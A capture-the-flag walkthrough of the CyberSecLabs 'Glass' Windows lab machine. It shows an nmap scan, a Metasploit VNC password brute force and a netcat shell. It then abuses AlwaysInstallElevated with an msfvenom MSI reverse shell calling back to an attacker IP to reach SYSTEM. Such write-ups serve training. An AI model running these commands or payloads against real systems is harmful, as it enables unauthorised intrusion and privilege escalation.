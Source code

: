 # CyberSecLabs : Glass : 172.31.1.25

Nmap Scan

```zsh
nmap -sC -sV -p 135,139,445,3389,5800,5900,5985,47001,49664,49665,49666,49667,49668,49671,49676 172.31.1.25 -v
PORT      STATE  SERVICE       VERSION                                                                                                                                      
135/tcp   open   msrpc         Microsoft Windows RPC                                                                                                                        
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                
445/tcp   open   microsoft-ds?
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GLASS
|   NetBIOS_Domain_Name: GLASS
|   NetBIOS_Computer_Name: GLASS
|   DNS_Domain_Name: Glass
|   DNS_Computer_Name: Glass
|   Product_Version: 10.0.17763
|_  System_Time: 2020-07-24T07:47:35+00:00
| ssl-cert: Subject: commonName=Glass
| Issuer: commonName=Glass
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-22T18:19:53
| Not valid after:  2021-01-21T18:19:53
| MD5:   7aea 3565 7106 5b2d 2b48 ac80 eaae bf2c
|_SHA-1: c06b 3f70 5e3f 2546 74c7 0365 8844 f105 ca3e a628
|_ssl-date: 2020-07-24T07:47:46+00:00; +1s from scanner time.
5800/tcp  open   vnc-http      TightVNC (user: glass; VNC TCP port: 5900)
| http-methods: 
|_  Supported Methods: GET
|_http-title: TightVNC desktop [glass]
5900/tcp  open   vnc           VNC (protocol 3.8)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_vnc-info: ERROR: Script execution failed (use -d to debug)
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49671/tcp closed unknown
49676/tcp open   msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: GLASS, NetBIOS user: <unknown>, NetBIOS MAC: 02:f2:64:30:d9:62 (unknown)
| Names:
|   GLASS<00>            Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  GLASS<20>            Flags: <unique><active>
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time:                                                                                                                                                                
|   date: 2020-07-24T07:47:35
|_  start_date: N/A
```

On visitng 5800 port we see it is a tight vnc http. Also shows us a username 'glass'

![User known](./images/tightuser.png)

```zsh
msfconsole
use auxiliary/scanner/vnc/vnc_login
```
Set the options correctly like this and run :

![Options and pass revealed](./images/tightpass.png)

Now login with the creds.

```zsh
vncviewer 172.31.1.25:5900
```

![Loggin in](./images/loggedin.png)

Upload nc.exe and execute it via terminal as shown above and you will have a shell.

![Andrew shell](./images/andrew.png)

Now upload and run winpeas and you will see ```AlwaysInstallElevated``` is set to 1.

The catch is that two Registry settings must be enabled for this to workThe “AlwaysInstallElevated” value must be set to 1 for both the localmachine and current user.

Verify Manually:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![Both set to 1](./images/ele.png)

Now make .msi file for a x64 bit machine as that is our target (Windows10x64 bit)

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.40 LPORT=80 -f msi -o reverse.msi
```
Now upload this , start a shell , run it with this :
```cmd
msiexec /quiet /qn /i reverse.msi
```

You will have a system shell

![System Shell](./images/system.png)